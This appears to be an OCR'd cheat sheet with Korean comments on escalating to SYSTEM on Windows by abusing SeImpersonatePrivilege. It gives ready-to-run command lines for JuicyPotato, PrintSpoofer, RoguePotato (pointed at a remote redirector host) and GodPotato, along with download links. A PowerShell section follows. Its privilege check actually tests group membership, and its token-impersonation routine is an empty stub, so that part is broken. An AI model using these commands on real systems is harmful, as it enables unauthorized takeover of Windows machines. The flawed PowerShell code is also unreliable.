 ```cmd
:: 1. 권한 확인
whoami /priv | findstr "SeImpersonatePrivilege"

:: 2. Windows 버전 확인
systeminfo | findstr "OS Name\|OS Version"

:: 3. JuicyPotato (Windows Server 2016, Windows 10 1809 이전)
:: 다운로드: https://github.com/ohpe/juicy-potato/releases
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}

:: 4. PrintSpoofer (Windows 10 1809 이후, Server 2019 이후)
:: 다운로드: https://github.com/itm4n/PrintSpoofer
PrintSpoofer.exe -i -c cmd

:: 5. RoguePotato (제한된 환경)
:: 다운로드: https://github.com/antonioCoco/RoguePotato
RoguePotato.exe -r 192.168.1.100 -e "cmd.exe" -l 9999

:: 6. GodPotato (최신 버전)
:: 다운로드: https://github.com/BeichenDream/GodPotato
GodPotato.exe -cmd "cmd /c whoami"
```

```powershell
# PowerShell로 SeImpersonatePrivilege 확인 및 악용
# 1. 권한 확인
if (([Security.Principal.WindowsIdentity]::GetCurrent().Groups | Where-Object {$_.Value -eq "S-1-5-32-544"}) -or
    ([Security.Principal.WindowsIdentity]::GetCurrent().Groups | Where-Object {$_.Value -eq "S-1-5-6"})) {
    Write-Host "SeImpersonatePrivilege detected!" -ForegroundColor Red
}

# 2. PowerShell 기반 Token 조작 (고급)
Add-Type -TypeDefinition @"
using System;
using System.Runtime.InteropServices;
using System.Security.Principal;
public class TokenManipulator {
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool LogonUser(string lpszUsername, string lpszDomain, string lpszPassword, int dwLogonType, int dwLogonProvider, out IntPtr phToken);

    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

    public static void ImpersonateSystem() {
        // Token 조작 로직
    }
}
"@

# 3. 실행
[TokenManipulator]::ImpersonateSystem()
```
